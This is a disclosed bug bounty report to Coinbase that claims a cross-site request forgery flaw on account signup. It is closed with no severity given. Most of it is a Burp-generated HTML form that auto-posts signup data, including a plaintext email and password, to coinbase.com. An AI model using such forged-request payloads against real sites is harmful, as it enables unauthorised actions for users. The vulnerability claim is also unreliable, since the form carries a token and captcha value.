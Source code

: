 # Csrf bug on signup session

## Report Details
- **Report ID**: 230428
- **URL**: https://hackerone.com/reports/230428
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-05-21T09:46:51.165Z
- **Disclosed**: 2017-08-30T22:51:21.465Z

## Reporter
- **Username**: dark_heaven
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: coinbase

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, researchers are more likely to earn a larger bounty by explaining how a vulnerability can be exploited to cause harm to Coinbase or its users.

**Summary:** [CSRF bug on coinbase]
**Description:** [Sir In signup session I intercept using burpsuite professional. Then i make CSRF POC I I test this on by browser. I change data to check actually it's working or not. It's actually send request to my mail for verify email address. CSRF POC is below:-
-----------------------------------------------------------------------------------------------------------------------------------------------------------
 <html>
  <body>
    <form action="https://www.coinbase.com/users" method="POST">
      <input type="hidden" name="utf8" value="â&#156;&#147;" />
      <input type="hidden" name="authenticity&#95;token" value="nCesx4OwNXcQRUR&#47;0YIGDaBMFThkj3FbZjHOeV2ANvRXTBjnUjDb30otf7hsjKO&#47;vItsb0MupYvyRr1fIs77Ow&#61;&#61;" />
      <input type="hidden" name="user&#91;first&#95;name&#93;" value="anirban" />
      <input type="hidden" name="user&#91;last&#95;name&#93;" value="singha" />
      <input type="hidden" name="user&#91;email&#93;" value="anirbansingha1&#64;gmail&#46;com" />
      <input type="hidden" name="user&#91;password&#93;" value="dadaboji" />
      <input type="hidden" name="g&#45;recaptcha&#45;response" value="03AIezHSYALkPQNKFq&#95;8LadLUQyLi0eBef4aNZ2UCyfLtGE95EW77m&#45;uAvI25VAVb839olRqXfMsqjAEn5eANLARw4sw6vKlJ&#45;u0qDQ1j&#95;aqZ&#95;RnDi38AokPkKhypKvoY1P7T7TMZkVzfBgsXPXC0&#45;LXSXQW6UyfvZ&#95;W8LSo1YfgrAtD5EZI5TtG5Qao47ylsASetNKhtS7OloBmliEVFS46n6jHcGT8zPN1XI4y8vkXto5pueuQQ3ZDFM3kX24GLEvge&#95;ZJ2RGIyxRkqDDgQ1buPjQLsCtoHwF8twDDGV0qETHUh6npihSfRMyPJxRsZAhfBW0MfKHcxAF0LkmaTOP0k11xpfxZIsyUW4sx190TR&#45;mcHfFfzxXkCG32DmYha1rR6JyFLeyusiX8S2AHCEalVeWIKuE&#45;XdQE0vIskTChcF0K6XPJPX2sU" />
      <input type="hidden" name="user&#91;accepted&#95;user&#95;agreement&#93;" value="0" />
      <input type="hidden" name="user&#91;accepted&#95;user&#95;agreement&#93;" value="1" />
      <input type="hidden" name="commit" value="Create&#32;account" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
----------------------------------------------------------------------------------------------------------------------------------------------------------
]

## Browsers Verified In:

  * [firefox 45.9.0]
  * [add each browser and version number tested in]

## Steps To Reproduce:

(Add details for how we can reproduce the issue)

  1. [intercept  a request using burpsuite after pressing signup button]
  1. [make a CSRF prove of concept using burpsuite]
  1. [Change data and test in browser. It will work compleately fine]

## Supporting Material/References:

  * List any additional material (e.g. screenshots, logs, etc.)


## Attachments
No attachments
